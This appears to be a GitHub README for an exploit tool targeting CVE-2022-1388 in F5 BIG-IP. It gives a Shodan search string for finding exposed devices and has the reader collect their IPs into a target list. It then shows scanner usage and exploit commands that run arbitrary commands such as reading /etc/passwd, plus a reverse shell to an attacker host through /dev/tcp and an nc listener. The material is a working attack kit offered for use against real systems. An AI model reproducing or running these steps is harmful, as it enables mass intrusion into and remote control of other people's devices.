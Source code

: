 # CVE-2022-1388
### Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the list_ip file.

### Usage.
#### Check:
```
chmod +x scanner.sh
bash scanner.sh
```
#### RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://127.0.0.1 -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
#### Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://victim_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
